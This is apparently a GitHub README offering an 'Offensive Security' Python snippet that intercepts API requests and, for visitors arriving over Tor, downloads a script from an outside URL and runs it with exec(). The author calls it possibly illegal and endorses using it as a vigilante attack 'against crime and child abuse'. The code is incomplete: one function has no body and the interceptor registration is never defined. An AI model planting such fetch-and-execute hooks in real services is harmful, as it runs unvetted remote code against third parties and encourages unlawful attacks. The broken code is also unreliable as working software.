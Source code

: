 # Feuerteufel Logic
###### RedTeam Script Examples (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 3/2023)

DANGER!

A creative Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
##Sorry cant explane all or you know what can be!

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) to custumize your logic

```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic
    # Be aware that attempting to bypass security measures is likely illegal and unethical

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```
